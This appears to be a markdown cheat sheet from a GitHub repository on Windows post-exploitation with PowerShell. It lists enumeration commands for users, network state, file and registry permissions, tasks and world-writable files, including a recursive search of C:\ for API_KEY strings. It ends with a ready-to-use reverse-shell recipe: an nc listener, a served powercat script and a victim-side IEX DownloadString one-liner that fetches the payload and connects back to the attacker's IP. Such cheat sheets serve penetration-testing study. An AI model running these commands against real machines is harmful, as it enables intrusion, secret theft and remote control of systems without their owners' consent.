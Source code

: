 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
## users:
```
Get-LocalUser
(Get-LocalUser).Name
(Get-LocalUser).Name.Count
Get-LocalUser -SID "sid_value"
Get-LocalUser | Where-Object -Property PasswordRequired -Match false
Get-LocalGroup | measure
```
## basic networking information:
```
Get-NetIPAddress
Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
Get-NetRoute
Get-NetAdapter -Name * -IncludeHidden
Get-NetAdapter -Name * -Physical
```
## file permissions:
```
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
Get-Acl C:\ | Format-List
Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
```
## registry permissions:
```
Get-Acl "HKLM:\Software" | Format-List
Get-Hotfix
Get-Hotfix -Id KB4023834
```
## scheduled and running tasks:
```
Get-Process
Get-ScheduledTask -TaskName * | Format-List
Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
```
## insecure files:
```
Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
Get-ChildItem -Hidden -Path
```
 
# Reverse Shell

## Attacker's Machine:
```
git clone https://github.com/besimorhino/powercat && cd powercat
python3 -m http.server 8080
nc -lvnp 1337
```
## Victim's Machine:
- Execution Policy:
```
Get-ExecutionPolicy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
- Download and execute payload:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep
```

